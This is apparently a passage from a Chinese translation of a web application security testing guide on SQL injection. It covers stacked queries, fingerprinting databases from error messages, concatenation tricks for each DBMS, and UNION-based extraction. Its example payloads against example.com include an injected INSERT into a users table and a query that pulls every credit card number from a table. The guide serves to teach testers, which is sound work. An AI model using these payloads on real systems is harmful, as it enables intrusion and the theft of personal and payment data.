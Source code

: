 ```

```http://www.example.com/product.php?id=10 AND 1=1```

##### Stacked Queries

取决于Web应用程序使用的API和DBMS（例如PHP + PostgreSQL，ASP + SQL SERVER），一次调用即可执行多个查询。

考虑以下SQL查询：```SELECT * FROM products WHERE id_product=$id_product```

利用上述情况的一种方法是：```http://www.example.com/product.php?id=10; INSERT INTO users (…)```

这种方式可以连续执行许多查询，而与第一个查询无关。

#### 指纹数据库
尽管SQL语言是标准语言，但每个DBMS都有其独特之处，并且在许多方面彼此不同，例如特殊命令，用于检索数据的功能（例如用户名和数据库），功能，注释行等。

当测试人员转向更高级的SQL注入开发时，他们需要知道后端数据库是什么。

##### 应用程序返回的错误
找出使用哪种后端数据库的第一种方法是观察应用程序返回的错误。以下是错误消息的一些示例：

- MySql:
```
You have an error in your SQL syntax; check the manual
that corresponds to your MySQL server version for the
right syntax to use near '\'' at line 1
```
一个完整的带有version（）的UNION SELECT也可以帮助您了解后端数据库，例如：
```SELECT id, name FROM users WHERE id=1 UNION SELECT 1, version() limit 1,1```

- Oracle:
```ORA-00933: SQL command not properly ended```

- MS SQL Server:
```
Microsoft SQL Native Client error ‘80040e14’
Unclosed quotation mark after the character string
```
或尝试执行下列语句：
```SELECT id, name FROM users WHERE id=1 UNION SELECT 1, @@version limit 1, 1```

- PostgreSQL
```
Query failed: ERROR: syntax error at or near
"’" at character 56 in /www/site/test.php on line 121.
```
如果没有显示错误信息或自定义错误页，测试者可以尝试使用变化的连接技术，注入字符串字段。例如：
- MySql: ‘test’ + ‘ing’
- SQL Server: ‘test’ ‘ing’
- Oracle: ‘test’||’ing’
- PostgreSQL: ‘test’||’ing’

#### 渗透技术
##### Union 渗透技术

在SQL注入中使用UNION运算符，可以将测试人员有意附加查询加入到原始查询中。附加查询的结果将与原始查询的结果结合在一起，从而使测试人员可以获取其他表的列的值。假设从服务器执行的查询如下：
```SELECT Name, Phone, Address FROM Users WHERE Id=$id```

我们设置id值如下：```$id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable```

这样，查询语句如下：```SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable```

它将原始查询的结果与CreditCardTable表中的所有信用卡号结合在一起。关键字ALL对于绕开使用关键字的查询是必需的DISTINCT。此外，我们注意到，除了信用卡号以外，我们还选择了其他两个值(1,1)。这两个值是必需的，因为两个查询必须具有相同数量的参数/列，以避免语法错误。
```